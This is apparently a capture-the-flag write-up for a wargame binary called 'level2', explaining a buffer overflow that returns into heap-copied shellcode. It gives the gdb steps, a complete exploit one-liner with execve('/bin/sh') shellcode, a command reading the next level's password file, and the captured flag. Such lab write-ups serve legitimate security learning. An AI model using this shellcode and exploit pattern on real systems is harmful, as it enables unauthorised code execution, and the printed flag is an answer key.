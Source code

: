 # level2

We find an executable `level2`. We run `gdb level2` to examine it.

A `main` calls a `p` function, which seems to do a `gets`, compare an address, and run an `strdup` if the check fails.

This time, the executable doesn't call `system` ; we'll have to do it ourselves, with **shellcode**. Instead of filling our buffer with `A`, we're gonna fill it with executable code in hexadecimal.

There's a subtlety here : usually, we could run the code by directly pointing our return address to the buffer. But here, all stack addresses start with `0xb` - which is exactly what is checked by the `p` function. We'll have to use the heap by taking advantage of the `strdup` (which will duplicate our shellcode there) and setting our `eip` register to wherever `strdup` copies our buffer.

## The exploit

We need three things :

- The size of the buffer until `eip`
- A shellcode
- The address we're jumping to

We fill the beginning of the buffer with `NOP` instructions, which if read will simply direct to our shellcode.

We'll have something like this :

```
python2 -c 'print(NOP_INSTRUCTION * (BUFFER_SIZE - SHELLCODE_SIZE) + SHELLCODE + DESIRED_ADDRESS)'
```

### **Size of the buffer**

In GDB, we can run
```
i r $ebp
```
to get the ebp register's address. We get `0xbffff718`, which means `eip` is at `0xbffff71c` (4 bytes behind).

We adjust the `x/NUMBERxw $esp` command to show us the bytes from `esp` to `eip`.
```
x/28xw $esp
```
seems to do the trick.

We can tell the buffer starts at `0xbffff6cc` by inputting a bunch of `A`'s and checking where the `0x41414141` starts.

A quick `python2 -c "print(0xbffff71c - 0xbffff6cc)"` tells us the "buffer size" : `80`.

### **Shellcode**

For the shellcode, no need to reinvent the wheel. There are plenty of existing shellcodes on the internet.

On [this website](https://beta.hackndo.com/buffer-overflow/), we find the following shellcode, which is equivalent to `system("/bin/sh");` :

```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

### **Address**

Finally, we need the target address. We want something on the heap, so the place where `strdup` copies the buffer would be good.

We set a breakpoint after `strdup` with `break *p+105` and check the value of `eax` with :

```
p/x $eax
```

We get `0x804a008`.

### **The command**

Now we can substitute :

```
python2 -c 'print("\x90" * 35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08")'
```

Finally, we have to pipe it into the executable. Same as before, we run :

```
( python2 -c 'print("\x90" * 35 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x08\xa0\x04\x08")' ; cat ) | ./level2
```

## The flag

It works ! In our interactive shell, we run :

```
cat /home/user/level3/.pass
```

... and get the flag for `level2` :

```
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```